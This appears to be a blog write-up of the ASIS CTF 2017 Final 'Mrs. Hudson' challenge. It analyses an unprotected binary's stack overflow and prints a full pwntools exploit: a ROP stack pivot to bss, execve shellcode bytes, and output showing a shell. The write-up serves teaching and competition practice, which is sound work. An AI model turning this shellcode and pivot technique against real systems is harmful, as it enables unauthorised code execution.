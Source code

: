 ```yaml
---
author: zero
comments: true
date: 2017-09-14 00:00:00 
layout: post
slug: asis-ctf-2017-final-mrs.hudson 
title: ASIS-CTF-2017-FINAL-Mrs.Hudson 
---
```


**Description**:
England would fall if Mrs. Hudson leaves Baker Street. Mrs. Hudson is the first one who is totally exploited by Sherlock, or Does She?


## File

```
~/Desktop                                                         
▶ file hudson
hudson: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a99b54f5a0f90ebade826e34188ac1f5eebb2cc7, not stripped
```

The given binary was not stripped, which often implies either the challenge is extremely difficult or simple.
 
## Protections

```
~/Desktop 
▶ checksec --file hudson
[*] '/home/zero/Desktop/hudson'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No protections were enabled, which made it eaiser for me to solve. 

## Program

{% highlight c %}
000000000040061a <main>:
  40061a:       55                      push   %rbp
  40061b:       48 89 e5                mov    %rsp,%rbp
  40061e:       48 83 c4 80             add    $0xffffffffffffff80,%rsp
  400622:       89 7d 8c                mov    %edi,-0x74(%rbp)
  400625:       48 89 75 80             mov    %rsi,-0x80(%rbp)
  400629:       48 8b 05 20 0a 20 00    mov    0x200a20(%rip),%rax        # 601050 <stdin@@GLIBC_2.2.5>
  400630:       b9 00 00 00 00          mov    $0x0,%ecx
  400635:       ba 02 00 00 00          mov    $0x2,%edx
  40063a:       be 00 00 00 00          mov    $0x0,%esi
  40063f:       48 89 c7                mov    %rax,%rdi
  400642:       e8 c9 fe ff ff          callq  400510 <setvbuf@plt>
  400647:       48 8b 05 f2 09 20 00    mov    0x2009f2(%rip),%rax        # 601040 <__TMC_END__>
  40064e:       b9 00 00 00 00          mov    $0x0,%ecx
  400653:       ba 02 00 00 00          mov    $0x2,%edx
  400658:       be 00 00 00 00          mov    $0x0,%esi
  40065d:       48 89 c7                mov    %rax,%rdi
  400660:       e8 ab fe ff ff          callq  400510 <setvbuf@plt>
  400665:       bf 14 07 40 00          mov    $0x400714,%edi
  40066a:       e8 91 fe ff ff          callq  400500 <puts@plt>
  40066f:       48 8d 45 90             lea    -0x70(%rbp),%rax
  400673:       48 89 c6                mov    %rax,%rsi
  400676:       bf 2b 07 40 00          mov    $0x40072b,%edi
  40067b:       b8 00 00 00 00          mov    $0x0,%eax
  400680:       e8 9b fe ff ff          callq  400520 <__isoc99_scanf@plt>
  400685:       c9                      leaveq 
  400686:       c3                      retq   
{% endhighlight %}

The program was very small enough that I used objdump instead of IDA to see what the program does. It simply prints a text and waits for the user input using scanf. 

## Analysis 

```
~/Desktop                                                         
▶ ./hudson
Let's go back to 2000.
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[1]    87899 segmentation fault (core dumped)  ./hudson
```   

As a first step, I ran the program.  I gave in a large number of 'a' to see if it would crash the program and it did.  

It turned out to be a simple stack overflow. Since there were no protections, I was immediately thinking of redirecting rip to the address of buffer that has my shellcode. But, the issue with this method was that I have no way of knowing the address of buffer without some form of leak. 

Thus, I either had to use rop or store the shellcode in static address that would not get affected by aslr. I went with the second method since the organizer did not provide libc for this problem.


## Exploit

As the output of the program suggested, I pivoted a stack to bss and read in the shellcode near bss. This was done so that it executes my shellcode when the program returns from the fake stack.

{% highlight python %}
from pwn import *
import sys

context.log_level=True

local = 1

libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")

if local:
        r = remote("localhost",5555)
        pause()
else:
        r = remote("178.62.249.106",8642)
        pause()


puts = p64(0x000000000040066a)
prdi = p64(0x004006f3)
main = p64(0x000000000040066f)
prsi = p64(0x004006f1)
prbp = p64(0x00400575)
leave = p64(0x0000000000400685)

payload = "A"*120
payload += prsi #pop rsi ; pop r15 ; ret  ;  (1 found)
payload += p64(0x601081) #bss
payload += p64(0x41) #junk
payload += prbp #pop rbp ; ret  ;  (1 found)   
payload += p64(0x000000000601079) #stack pivot
payload += p64(0x0000000000400676) #scanf
payload += p64(0x0000000000601050) #near bss (calculated)

s ="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

r.recvuntil(".")
r.sendline(payload)

r.sendline(p64(0x000000000601089)+s) #read in shellcode 

r.interactive()

{% endhighlight %}

The result of running the exploit

```
~/Desktop                                                                                                                           
▶ python hudson.py
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to localhost on port 5555: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
$ id
uid=1000(zero) gid=1000(zero) groups=1000(zero),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ exit
[*] Got EOF while reading in interactive
``` 
